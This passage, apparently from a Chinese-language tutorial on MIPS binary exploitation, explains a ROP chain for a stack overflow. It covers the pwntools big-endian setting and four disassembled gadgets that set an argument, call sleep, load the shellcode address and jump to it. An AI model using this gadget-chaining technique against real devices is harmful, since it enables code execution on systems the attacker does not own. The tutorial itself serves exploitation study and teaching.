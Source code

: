 注意的是，pwntools需要专门设置为大端，否则默认小端。

```
context.endian = 'big'
```

**寻找gadgets**

经过上文的分析，我们知道我们能够布置栈，来控制s0～s2和ra寄存器。初始我们将ra覆盖为gadget1，用于修改寄存器$a0，将sleep函数的地址放在s2备用，将gadgets放在s1用于下一次跳转。另外，使用gadgets需要考虑流水线效应。

Gadget1，修改寄存器$a0（作为调用sleep的参数）

```
LOAD:0000E204                 move    $t9, $s1
LOAD:0000E208                 jalr    $t9 ; sysconf
LOAD:0000E20C                 li      $a0, 3
```

Gadget2，完成两个功能，1.调用sleep函数，2.跳转到下一个gadgets。首先调用sleep函数（之前存放在s2中），并且结束之后sp会增加0x28字节。在结束之前也会修改ra等寄存器的值，不过这里需要注意的是0x28+var_10($sp)的意思是sp+0x28-0x10地址。（Mips是通过偏移来获得栈内参数的），这里也要先设置好ra的值。调用sleep之后，程序会跳转到ra指向的地址。

```
LOAD:00037470                 move    $t9, $s2
LOAD:00037474                 lw      $ra, 0x28+var_4($sp)
LOAD:00037478                 lw      $s2, 0x28+var_8($sp)
LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)
LOAD:00037480                 lw      $s0, 0x28+var_10($sp)
LOAD:00037484
LOAD:00037484 loc_37484:                               # DATA XREF: xdr_callhdr↓o
LOAD:00037484                 jr      $t9 ; xdr_opaque_auth
LOAD:00037488                 addiu   $sp, 0x28

#其实这段代码用gdb的反汇编看起来反而更加易懂一些
=&gt; 0x77f70470:    move    t9,s2
   0x77f70474:    lw    ra,36(sp)
   0x77f70478:    lw    s2,32(sp)
   0x77f7047c:    lw    s1,28(sp)
   0x77f70480:    lw    s0,24(sp)
   0x77f70484:    jr    t9
   0x77f70488:    addiu    sp,sp,40
```

Gadget3，用于将栈底地址写入a1，即我们布置的shellcode的地址。

```
LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150
LOAD:0000E908                 move    $t9, $s1
LOAD:0000E90C                 jalr    $t9 ; stat64
LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)
```

Gadget4，跳转到shellcode

```
LOAD:000374D8                 move    $t9, $a1
LOAD:000374DC                 sw      $v0, 0x4C($a0)
LOAD:000374E0                 move    $a1, $a2
LOAD:000374E4                 jr      $t9
LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'
```
